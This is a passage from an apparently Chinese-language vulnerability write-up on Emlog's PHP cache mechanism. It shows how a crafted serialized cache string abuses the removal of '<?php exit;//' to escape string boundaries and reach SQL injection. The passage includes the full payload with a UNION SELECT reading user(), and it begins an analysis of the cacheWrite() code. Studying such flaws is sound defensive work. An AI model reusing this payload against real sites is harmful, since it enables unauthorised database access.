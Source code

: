 此时写入缓存的内容为（需要注意 i 后面跟的是文章 id，因为这里复现了很多次所以截图中 id 为 17，18）：

```php
<?php exit;//a:2:{i:1;s:13:"<?php exit;//";i:2;s:109:"";s:93:"0 union select 1,user(),'1','','','','',1,-1,'blog',1,1,0,'n','n','n','y','y','','','','',''#";s:1:"x";}
```

![image-20231127171126192](assets/1702521318-2a6a64d07abe5b168a1ceb10382abfe1.jpg)

经过读取缓存反序列化的字符串为（<?php exit;//会被替换为空）：

```php
a:2:{i:1;s:13:"";i:2;s:109:"";s:93:"0 union select 1,user(),'1','','','','',1,-1,'blog',1,1,0,'n','n','n','y','y','','','','',''#";s:1:"x";}
```

反序列化后执行的结果如下：

```php
";i:5;s:109:"
"0 union select 1,user(),'1','','','','',1,-1,'blog',1,1,0,'n','n','n','y','y','','','','',''#"
```

最后通过触发缓存实现 sql 注入：

![image-20231127171604378](assets/1702521318-80e603032ff242f2fa1d677accb423d2.jpg)

### 漏洞分析

Emlog 的缓存机制为：将网站运行的数据以 php 序列化的方式写入缓存保存为 php 文件后，下一次读取的时候反序列化文件后读取保存的缓存。

写入读取缓存部分代码如下：

cacheWrite() 方法用于将缓存数据写入文件。先构建缓存文件路径，写入的时候会在缓存数据前面加上代码：<?php exit;//，用于防止直接访问缓存文件。写入缓存文件后会调用全局变量 $this->{$cacheName . '\_cache'}，清空对应的缓存变量。等下一次再写入缓存时会进行堆叠，并将写入的缓存以数组的形式按照顺序排列。
